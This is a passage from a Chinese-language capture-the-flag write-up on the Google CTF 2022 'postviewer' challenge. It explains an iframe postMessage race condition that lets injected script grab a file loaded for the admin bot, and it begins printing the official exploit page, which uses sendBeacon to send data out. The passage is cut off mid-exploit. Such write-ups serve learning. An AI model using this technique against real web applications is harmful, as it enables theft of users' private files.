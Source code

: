 ```js
        }
    });
```

截取出两个关键的方法，现在有了第一个漏洞点了。我们继续看`safe-frame.js`

```js
async function previewIframe(container, body, mimeType) {
    // 当我们点击previewFiles 就会触发这个函数
    // 这里实现的功能相当于： 我们点击了previewFiles 点击的是我们选中的files
    // 然后这个iframe 就开始localtion
    var iframe = document.createElement('iframe');
    iframe.src = SHIM_DATA_URL;
    container.appendChild(iframe);
    iframe.addEventListener('load', () => {
        iframe.contentWindow?.postMessage({ body, mimeType }, '*');
    }, { once: true });
}
```

这一句关键方法。也是对于上面文件预览的实现。然后题目做到完整的功能几乎已经介绍完毕了。这里需要思考的是

> 如果我们提交bot的url是题目的某个页面，我们在本地进行的所有操作是不会影响到他的，因为文件是存储在`indexDB`。那么还有什么办法呢？

### 解题

我们首先注意到`index.ejs`中，存在了`message`事件监听，那么我们可以把他嵌套到iframe中，然后通过我们的网站上的js代码去操作这个iframe，进而达到更深地利用。那么最好的情况是什么呢？

- 题目页面加载完毕，但是还没有执行`load`

- 我们的xss代码执行完毕。

- 然后题目继续load。

  ```js
  iframe.addEventListener('load', () => {
          iframe.contentWindow?.postMessage({ body, mimeType }, '*');
      }, { once: true });
  ```

也就是卡在上面这一段代码之前执行。`题目卡住了？网页还会继续加载吗？`我们知道`iframe`和网页本身是进程隔离的，原来是为了避免其他来源的数据对于本页面的污染，但是在这里反而导致了`条件竞争`。也就是我们在主线程卡住的时候，依然可以像题目添加的iframe里面postmessage, 页面里面的iframe依然会进行载入，所以只要我们隔一段时间去，然后他就可以运行我们js。这个时候我们的代码已经注入进去了，然后他带file进来了，我们就可以获取到资料了。

参考。

![image-20220720185009058](https://img.dem0dem0.top/images/image-20220720185009058.png)

官方题解：https://gist.github.com/terjanq/7c1a71b83db5e02253c218765f96a710。可以说学习到了许多，`条件竞争`真牛。最后就是把官方题解的exp，放到自己的网站上，然后让bot访问你的url。

```js
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>POC Vulnerable website</title>
</head>
<body>
    <h1>Click me!</h1>
    <iframe style="width:1px;height:1px" name="loop"></iframe>
    <pre id="log"></pre>
    <script>
        const URL = 'https://postviewer-web.2022.ctfcompetition.com';
        const sleep = (d) => new Promise((r) => setTimeout(r, d));
        function notify(...args){
            navigator.sendBeacon('', args);
```